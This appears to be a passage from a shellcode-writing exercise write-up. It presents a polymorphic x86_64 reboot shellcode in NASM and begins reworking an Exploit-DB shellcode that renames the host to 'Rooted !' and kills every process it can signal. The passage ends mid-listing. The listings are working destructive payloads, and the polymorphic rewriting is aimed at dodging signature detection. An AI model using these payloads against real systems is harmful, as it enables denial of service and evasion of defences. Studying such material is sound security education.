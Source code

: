 The following is the final polymorphic shellcode with a size of 27 bytes.

```nasm
; int reboot(int magic, int magic2, int cmd, void *arg)
; rax=169, rdi=0xfee1dead, rsi=0x28121969, rdx=0x4321fedc

global _start

section .text

_start:
	add al, 0xa9
	mov edi, 0x7F70EF56
	shl rdi, 0x1
	inc edi
	mov edx, 0x28121969
	mov esi, 0x4321fedc
	xchg rdx, rsi
	syscall
```

Shellcode II
------------
In the second [shellcode](https://www.exploit-db.com/exploits/43607/) we’re going to play with changing the hostname to `Rooted !` via `sethostname()` function and then terminate every process for which the calling process has permission to send signals to using `kill()` function. The original shellcode size is 33 bytes which leave us with 49 bytes.

```nasm
# Linux/x86_64 sethostname() & killall 33 bytes shellcode
# Date: 2010-04-26
# Author: zbt
# Tested on: x86_64 Debian GNU/Linux
 
 
/*
    ; sethostname("Rooted !");
    ; kill(-1, SIGKILL);
 
 
    section .text
        global _start
 
    _start:
 
        ;-- setHostName("Rooted !"); 22 bytes --;
        mov     al, 0xaa
        mov     r8, 'Rooted !'
        push    r8
        mov     rdi, rsp
        mov     sil, 0x8
        syscall
 
        ;-- kill(-1, SIGKILL); 11 bytes --;
        push    byte 0x3e
        pop     rax
        push    byte 0xff
        pop     rdi
        push    byte 0x9
        pop     rsi
        syscall
*/
int main(void)
{
    char shellcode[] =
```